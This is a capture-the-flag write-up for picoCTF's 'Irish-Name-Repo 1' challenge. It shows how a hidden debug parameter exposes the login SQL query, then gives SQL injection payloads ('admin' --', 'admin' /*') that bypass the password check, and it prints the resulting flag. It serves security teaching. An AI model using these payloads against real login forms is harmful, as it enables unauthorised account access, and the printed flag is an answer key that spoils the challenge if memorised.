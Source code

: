**Tristan Gomez**

# Irish-Name-Repo 1

### Author: Chris Hensler

### Description: 

`
There is a website running at https://jupiter.challenges.picoctf.org/problem/50009/ (link) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
`

### Hints:

 * There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
 * Try to think about how the website verifies your login.

### Step 1

Upon first navigating to the challenge site, we are greeted by a fun "List 'o the Irish!" page displaying Irish celebrities. If we click the hamburger menu icon in the top left corner of the page, we see "Support" and "Admin Login" pages. Since we want to login, lets see the admin page.

### Step 2

On the "Admin Login" page we can see a generic login form needing a username and password. Inspecting the HTML of the page, we see that the form is using **POST** to `login.php`. The form fields are `username` and `password` in the **POST**, but we have a hidden `debug` parameter that is set to 0.<br />

Knowing these parameters, let's set the debug parameter to `1` and craft our full payload which looks like:

```
exploit = {
    'username' : 'test',
    'password' : 'test',
    'debug' : '1'
}
```

Using the Python Requests library, I will send this as a payload to `/login.php`. Our response looks like:

```
<pre>
username: test
password: test
SQL query: SELECT * FROM users WHERE name='test' AND password='test'
</pre>
<h1>Login failed.</h1>
```

Ooooh, setting the debug flag allows us to see the backend query being run. With this information, we can craft an exploit that will allow us to bypass this login page.

### Step 3

Below are two slightly different payloads, both will work on this challenge:

```
admin' --
```

```
admin' /*
```

These payloads will be sent in the `username` field. Our payload sets the username to 'admin', but we then close the `username` field using a single quote.  Add a space then `--` or `/*` to comment out `AND password=` completely bypassing the password field. <br />

Our new payload will be

```
exploit = {
  'username' : """admin' --"""
  
  # use whatever comment syntax you desire
  # 'username' : """admin' /*"""
  
  'password' : 'doesnt matter'
}
```
<br />

Send the payload using Python requests or just directly enter it on the challenge page. You will successfully login and be greeted by:

```
Logged in!
Your flag is:  picoCTF{s0m3_SQL_fb3fe2ad}
```

**FLAG: picoCTF{s0m3_SQL_fb3fe2ad}**
